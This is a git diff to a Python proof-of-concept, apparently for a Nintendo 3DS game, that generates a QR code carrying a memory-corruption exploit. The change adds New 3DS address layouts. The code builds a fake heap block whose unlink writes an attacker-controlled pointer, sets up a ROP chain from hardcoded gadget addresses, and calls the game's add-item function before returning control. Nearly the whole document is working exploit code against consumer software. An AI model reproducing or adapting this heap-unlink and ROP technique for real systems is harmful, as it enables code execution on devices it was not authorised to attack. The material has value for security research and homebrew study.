

Add New3DS layout

diff --git a/PoC/ywb/ywb_qr_poc.py b/PoC/ywb/ywb_qr_poc.py
@@ -1,6 +1,8 @@
 #!/usr/bin/env python3
+import argparse
 import os
 import struct
+from dataclasses import dataclass
 
 import qrcode
 import qrcode.base
@@ -10,7 +12,7 @@ from qrcode.constants import ERROR_CORRECT_L
 from qrcode.util import BitBuffer, create_bytes
 
 # QR result buffer and adjacent heap blocks.
-B = 0x32654B24
+B = 0x32648924
 P = B + 0x40
 N = B + 0x997B4
 H0 = B - 0x1C0628
@@ -19,10 +21,33 @@ NEXT_BLOCK_ADDR = N + 0x480
 N_CAP = 0x00000458
 N_FLAGS = 0x04070000
 
-# Game objects
-FIELD_ENTRY_ADDR = 0x08E42A9C
-TARGET_REF_ADDR = FIELD_ENTRY_ADDR + 0x14  # 0x08E42AB0
 
+# Layout-specific addresses and output names.
+@dataclass(frozen=True)
+class Layout:
+    field_entry: int
+    exit_r8: int
+    output: str
+
+    @property
+    def target_ref(self) -> int:
+        return self.field_entry + 0x14
+
+
+LAYOUTS = {
+    "old3ds": Layout(
+        field_entry=0x08E42A9C,
+        exit_r8=0x08E42A88,
+        output="ywb_qr_poc.png",
+    ),
+    "new3ds": Layout(
+        field_entry=0x0CA42A9C,
+        exit_r8=0x0CA42A88,
+        output="ywb_qr_poc_new3ds.png",
+    ),
+}
+
+# Game objects
 DEV = 0x006B8A60
 
 # Game data
@@ -47,7 +72,6 @@ ADD_ITEM_FUNC = 0x003C7144  # Add an item (R0 = ID, R1 = quantity).
 # Return stack and registers.
 EXIT_SP = 0x0FFFFEB8
 EXIT_PC = 0x0012AD08
-EXIT_R8 = 0x08E42A88
 EXIT_R10 = 0x006B9028
 EXIT_R11 = 0x006B8B5C
 
@@ -73,7 +97,7 @@ def p32(buf, off, val):
     struct.pack_into("<I", buf, off, val)
 
 
-def build_fake_object():
+def build_fake_object(layout: Layout):
     b = bytearray(OBJ_LEN)
     object_addr = P
     exit_r9_slot_addr = object_addr + EXIT_CTX_OFF + 0x24
@@ -94,13 +118,13 @@ def build_fake_object():
     p32(b, INITIAL_STACK_OFF + 0x18, POP_R1_PC)  # POP_LR_PC LR
     p32(b, INITIAL_STACK_OFF + 0x1C, POP_R1_PC)  # POP_LR_PC PC
 
-    # Store [FIELD_ENTRY_ADDR+4] + 0x30 in [TARGET_REF_ADDR] and the exit R9 slot.
-    p32(b, INITIAL_STACK_OFF + 0x20, FIELD_ENTRY_ADDR)
+    # Store [FIELD_ENTRY+4] + 0x30 in [TARGET_REF] and the exit R9 slot.
+    p32(b, INITIAL_STACK_OFF + 0x20, layout.field_entry)
     p32(b, INITIAL_STACK_OFF + 0x24, LDR_R0_R1_PLUS4)  # LDR R0,[R1,#4]
     p32(b, INITIAL_STACK_OFF + 0x28, ADD18)
     p32(b, INITIAL_STACK_OFF + 0x2C, ADD18)  # ADD R0,R0,#0x18
-    p32(b, INITIAL_STACK_OFF + 0x30, TARGET_REF_ADDR)
-    p32(b, INITIAL_STACK_OFF + 0x34, STR_R0_R1)  # [TARGET_REF_ADDR] = R0
+    p32(b, INITIAL_STACK_OFF + 0x30, layout.target_ref)
+    p32(b, INITIAL_STACK_OFF + 0x34, STR_R0_R1)  # [TARGET_REF] = R0
     p32(b, INITIAL_STACK_OFF + 0x38, exit_r9_slot_addr)
     p32(b, INITIAL_STACK_OFF + 0x3C, STR_R0_R1)  # [exit_r9_slot_addr] = R0
     p32(b, INITIAL_STACK_OFF + 0x44, POP_R0_TO_R3_R10_PC)  # next: [N] = Dev
@@ -125,7 +149,7 @@ def build_fake_object():
     # Exit context: add the item and return to the caller.
     p32(b, EXIT_CTX_OFF + 0x00, ITEM_ID)
     p32(b, EXIT_CTX_OFF + 0x04, ITEM_QTY)
-    p32(b, EXIT_CTX_OFF + 0x20, EXIT_R8)
+    p32(b, EXIT_CTX_OFF + 0x20, layout.exit_r8)
     # EXIT_CTX_OFF+0x24 (exit R9) is filled by the chain.
     p32(b, EXIT_CTX_OFF + 0x28, EXIT_R10)
     p32(b, EXIT_CTX_OFF + 0x2C, EXIT_R11)
@@ -154,7 +178,7 @@ def build_fake_object():
     return b
 
 
-def build_fake_heap_header():
+def build_fake_heap_header(layout: Layout):
     b = bytearray(40)
     # ctrl=0: during the H0 free, sub_158AA0(Dev,N) sees [N]!=Dev and
     # returns, so N stays in the physical list until the FREE_BLOCK_FUNC call.
@@ -165,15 +189,15 @@ def build_fake_heap_header():
     p32(b, 0x08, NEXT_BLOCK_ADDR)  # next physical block
     p32(b, 0x18, N_CAP)  # size used when H0+N are coalesced
     p32(b, 0x1C, N_FLAGS)  # bit24 clear = free block
-    p32(b, 0x20, P)  # fake fd -> unlink writes [TARGET_REF_ADDR]=P
-    p32(b, 0x24, TARGET_REF_ADDR - 0x20)  # fake bk
+    p32(b, 0x20, P)  # fake fd -> unlink writes [TARGET_REF]=P
+    p32(b, 0x24, layout.target_ref - 0x20)  # fake bk
     return b
 
 
-def build_first_segment():
+def build_first_segment(layout: Layout):
     b = bytearray(FIRST_SEGMENT_LEN)
     b[0:PREFIX_LEN] = b'\xEC' * PREFIX_LEN
-    blk = build_fake_object()
+    blk = build_fake_object(layout)
     b[PREFIX_LEN:PREFIX_LEN + len(blk)] = blk
     return b
 
@@ -191,7 +215,7 @@ def build_declared_lengths(total):
 DECLARED_LENGTHS = build_declared_lengths(N - (B + 37) - FIRST_SEGMENT_LEN)
 
 
-def build_bitstream():
+def build_bitstream(layout: Layout):
     bits = []
 
     def put(val, n):
@@ -200,7 +224,7 @@ def build_bitstream():
 
     put(0b0100, 4)
     put(FIRST_SEGMENT_LEN, 16)
-    for by in build_first_segment():
+    for by in build_first_segment(layout):
         put(by, 8)
     for count in DECLARED_LENGTHS:
         put(0b0011, 4)
@@ -211,7 +235,7 @@ def build_bitstream():
         put(count, 16)
     put(0b0100, 4)
     put(40, 16)
-    for by in build_fake_heap_header():
+    for by in build_fake_heap_header(layout):
         put(by, 8)
     put(0b0000, 4)
     while len(bits) % 8:
@@ -225,12 +249,12 @@ def build_bitstream():
     return out
 
 
-def build_image():
+def build_image(layout: Layout):
     scale = 8
     border = 4
     rs = qrcode.base.rs_blocks(QR_VERSION, QR_ECC)
     cap = sum(block.data_count for block in rs)
-    data = build_bitstream()
+    data = build_bitstream(layout)
     i = 0
     while len(data) < cap:
         data.append(0xEC if i % 2 == 0 else 0x11)
@@ -263,8 +287,15 @@ def build_image():
                     for dx in range(scale):
                         img.putpixel((x0 + dx, y0 + dy), 0)
     here = os.path.dirname(os.path.abspath(__file__))
-    img.save(os.path.join(here, "ywb_qr_poc.png"))
+    img.save(os.path.join(here, layout.output))
+
+
+def main():
+    parser = argparse.ArgumentParser(description="Generate the YWB PoC QR image.")
+    parser.add_argument("--layout", choices=tuple(LAYOUTS), default="old3ds")
+    args = parser.parse_args()
+    build_image(LAYOUTS[args.layout])
 
 
 if __name__ == "__main__":
-    build_image()
+    main()
